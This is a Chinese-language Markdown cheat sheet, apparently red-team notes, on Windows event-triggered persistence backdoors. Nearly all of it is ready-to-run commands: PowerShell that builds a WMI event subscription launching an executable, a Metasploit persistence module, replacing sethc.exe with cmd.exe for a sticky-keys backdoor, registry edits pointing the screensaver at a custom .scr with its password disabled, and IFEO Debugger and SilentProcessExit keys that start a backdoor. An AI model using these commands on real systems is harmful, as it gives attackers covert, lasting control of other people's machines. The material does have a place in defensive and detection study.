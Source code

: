 # 事件触发执行后门

#### WMI订阅后门手动利用(ps)

创建事件过滤器

```
$EventFilterArgs = @{
	EventNamespace = "nb"
	Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"
	QueryLanguage = 'WQL'
}
$EventFilter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments $EventFilterArgs
```

创建事件消费者，在指定事件发生时执行后门

```
$CommandLineEventConsumerArgs = @{
	Name = "lbw"
	CommandLineTemplate = "cmd.exe /k C:\108.exe"
}
$EventConsumer = Set-WmiInstance -Namespace root\subscription -Class CommandLineEventConsumer -Arguments $CommandLineEventConsumerArgs
```

事件过滤器与事件消费者绑定

```
$FilterConsumerBindingArgs = @{
	Filter = $EventFilter
	Consumer = $EventConsumer
}
$FilterConsumerBinding = Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments $FilterConsumerBindingArgs
```

**Sharp-WMIEvent WMI订阅利用**

* github自查

**Metasploit 内置WMI订阅利用**

```
use exploit/windows/local/wmi_persistence
```

#### 利用系统辅助功能

* sethc.exe 粘贴键 连续5次Shift键
* magnify.exe 放大镜 WIndows + "+"
* utilman.exe 实用程序 Windows + U
* osk.exe 屏幕键盘 Windows+Ctrl+O
* displayswitch.exe 屏幕扩展 Windows + P
* atbroker.exe 辅助管理工具
* narrator.exe 讲述者 Windows+Ctrl+Enter

获取TrustedInstaller权限后

```
cd C:\Windows\System32
move sethc.exe sethc.exe.bak
copy cmd.exe sethc.exe
```

#### 利用屏幕保护程序

* 屏幕保护程序具有.scr文件扩展名的可执行文件组件
* 系统注册表项计算机\HKEY\_CURRENT\_USER\Control Panel\Desktop
* SCRNSAVE.exe 设置屏幕保护程序的路径，其指向以.scr扩展名的可执行文件
* ScreenSaveActive 设置是否启用屏幕保护程序，默认为1表示启用
* ScreenSaverIsSecure 设置是否需要密码解锁，设为0表示不需要密码
* ScreenSaveTimeOut 设置执行屏幕保护程序之前不活动的超时

修改屏幕保护程序的执行路径(scrnsave.exe键的值)，触发屏幕保护时执行自定义后门

```
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.exe /t REG_SZ /d "C:\xxx.scr"
```

启用屏幕保护

```
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1
```

设置不需要密码解锁

```
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecur /t REG_SZ /d "0"
```

设置用户不活动的超时设为60秒

```
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeOut /t REG_SZ /d "60"
```

#### IFEO注入

* IFEO使开发人员能将调试器附加到应用程序
* IFEO是Windows系统的一个注册表项，路径为计算机\HKEY\_LOCAL\_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options

**Debugger键值利用**

* 用户启动计算机的程序后，系统会在注册表的IFEO中查询所有程序的子键，如果存在与该程序名称相同的子健，就读取对应子健的"Debugger"键值，如果该键值未被设置，默认不做处理，否则直接用该键值所指定的程序路径来代替原始程序。

编辑"Debugger"的值，通过修改注册表方式创建粘滞键后门

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe"
```

**GlobalFlag**

* IFEO指定程序静默退出时启动任意监控程序

启动对记事本的进程静默退出监视

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
```

启动Windows错误报告WerFault.exe成为后门的父进程

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
```

将监视器进程设为后门

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\108.exe"
```

